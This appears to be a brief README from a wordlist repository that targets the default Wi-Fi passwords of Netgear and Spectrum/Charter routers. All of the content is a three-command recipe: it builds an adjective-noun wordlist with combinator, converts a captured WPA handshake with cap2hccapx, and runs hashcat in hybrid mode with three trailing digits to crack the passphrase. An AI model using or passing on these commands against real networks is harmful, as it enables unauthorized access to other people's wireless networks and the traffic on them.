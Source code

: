 # NetgearXX / MyCharterWifiXX / MySpectrumWifiXX / SpectrumSetup-XX / SpectrumwifiXXXX

### dicts/netgear-spectrum

```combinator.exe adjective.txt noun.txt > adj_noun.txt```

```cap2hccapx.exe WPAhandshake.pcap WPAhandshake.hccapx```

```Hashcat64.exe -m 2500 -a 6 WPAhandshake.hccapx adj_noun.txt ?d?d?d```
